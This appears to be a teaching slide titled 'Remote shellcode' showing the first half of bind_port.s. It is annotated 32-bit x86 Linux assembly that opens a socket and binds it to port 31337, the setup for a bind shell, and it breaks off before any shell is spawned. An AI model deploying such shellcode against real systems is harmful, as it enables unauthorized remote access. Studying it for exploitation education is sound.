

# Remote shellcode
bind_port.s (part 1/2)

BITS 32

; s = socket(2, 1, 0)
  push BYTE 0x66    ; socketcall is syscall #102 (0x66).
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.

  mov esi, eax      ; save socket FD in esi for later

; bind(s, [2, 31337, 0], 16)
  push BYTE 0x66    ; socketcall (syscall #102)
  pop eax
  inc ebx           ; ebx = 2 = SYS_BIND = bind()
  push edx          ; Build sockaddr struct:  INADDR_ANY = 0
  push WORD 0x697a  ;   (in reverse order)    PORT = 31337
  push WORD bx      ;                         AF_INET = 2
  mov ecx, esp      ; ecx = server struct pointer
  push BYTE 16      ; argv: { sizeof(server struct) = 16,
  push ecx          ;         server struct pointer,
  push esi          ;         socket file descriptor }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = 0 on success